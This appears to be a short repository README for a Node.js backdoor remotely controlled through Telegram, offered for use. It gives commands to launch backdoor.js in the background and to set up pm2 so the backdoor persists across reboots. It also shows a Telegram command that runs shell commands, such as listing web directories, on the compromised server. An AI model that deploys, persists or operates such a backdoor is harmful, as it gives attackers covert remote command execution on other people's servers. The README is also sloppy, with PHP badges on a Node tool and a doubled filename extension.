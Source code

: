 # js node


</h1>
<h4 align="center">comand list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. startup command `node` value
```
node backdoor.js
nohup node backdoor.js &

another comand 
npm install -g pm2
pm2 start nodedoor.js.js --name sakarepmu
pm2 save
pm2 startup


telegram comand Exe
/cmd ls -lah /var/www/html or ./etc

```
